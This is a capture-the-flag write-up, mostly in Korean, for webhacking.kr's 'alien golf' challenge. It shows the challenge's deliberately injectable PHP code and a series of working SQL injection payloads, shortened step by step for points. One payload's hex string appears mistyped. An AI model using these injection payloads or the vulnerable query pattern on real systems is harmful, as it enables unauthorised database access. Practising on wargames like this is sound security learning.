 ```yaml
---
title: ["[Webhacking.kr] alien golf (sqli - ???)"]
date: 2024-12-10 09:00:00 +0900
categories: [writeup, webhacking.kr]
tags: [web, sqli, golf]
---
```


```php
<?php
  include "../../config.php";
  login_chk();
  $db = dbconnect();
  print_best_golfer(72);
  $db = dbconnect("alien");
  if(preg_match('/admin|if/i', $_GET['no'])) exit("No Hack ~_~");
  $query = "select id from prob_alien where no={$_GET[no]}";
  echo "<hr>query : <strong>{$query}</strong><hr><br>";
  $query2 = "select id from prob_alien where no='{$_GET[no]}'";
  echo "<hr>query2 : <strong>{$query2}</strong><hr><br>";
  if($_GET['no']){
    $r = mysqli_fetch_array(mysqli_query($db,$query));
    if($r['id'] !== "admin") exit("sandbox1");
    $r = mysqli_fetch_array(mysqli_query($db,$query));
    if($r['id'] === "admin") exit("sandbox2");
    $r = mysqli_fetch_array(mysqli_query($db,$query2));
    if($r['id'] === "admin") exit("sandbox");
    $r = mysqli_fetch_array(mysqli_query($db,$query2));
    if($r['id'] === "admin"){
      // !!THIS IS PAYLOAD GOLF CHALLENGE!!
      // My solution of alien golf is 140byte.
      // If your solution is shorter than mine, you will get 5 point per 1 byte.
      $len = 140 - strlen($_GET['no']);
      if($len > 0){
        solve(72,$len * 5);
      }
      else{
        echo "<h2>nice try :)</h2>";
      }
    }
  }
  highlight_file(__FILE__);
?>
```

Lord of SQLi의 Alien과 같은 문제이다.  
Golf 형식의 문제로 페이로드가 짧을수록 높은 점수를 받게 된다.  

최고득점이 510 point니까 누군가는 이걸 38byte만에 해결했다는 뜻이다.  

```sql
?no=0 union select substr(0x61646d696e,now()%2,5)%23' union select substr(0x61646d696e,now()%2+1,5)%23 union select sleep(1)%23
```
Alien을 풀 때 사용했던 페이로드를 최대한 줄여보자.  

Alien은 문제를 확실히 푸는게 중요했어서 time값과 sleep으로 50%의 확률로 문제를 풀 수 있게 했지만, 이번 문제는 페이로드를 짧게하는 것이 가장 중요한 목표이므로 rand를 사용한 접근을 해보았다.  
또한 substr을 mid로 바꿨다.  

```sql
?no=0 union select mid(0x61646d696e,rand(),5)%23'union select mid(0x61646d696e,rand(),5)%23
?no=0 union select mid(@a:=0x61646d606e,rand(),5)%23'union select mid(@a,rand(),5)%23
?no=0 union select mid(@a:="admi" "n",rand(),5)%23'union select mid(@a,rand(),5)%23
```

1/16 확률로 동작하는 페이로드로 75byte까지는 줄였다. 325point 획득.  

좀 더 줄일 수 있을 것 같은데, 고민을 더 해보자.  